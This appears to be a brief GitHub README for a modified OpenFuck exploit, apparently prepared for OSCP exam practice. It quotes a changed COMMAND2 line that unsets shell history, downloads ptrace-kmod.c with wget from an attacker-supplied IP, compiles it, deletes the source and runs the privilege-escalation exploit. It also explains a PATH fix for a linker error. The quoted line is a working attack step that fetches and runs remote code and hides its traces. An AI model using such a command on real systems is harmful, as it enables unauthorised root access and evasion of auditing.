 # openfuck_oscp
modified the code on line 671

#define COMMAND2 "unset HISTFILE; cd /tmp;export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin; wget http://enter ur ip here/ptrace-kmod.c; gcc -o exploit ptrace-kmod.c; rm ptrace-kmod.c; ./exploit; \n"

added the lines export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin to overcome ld error
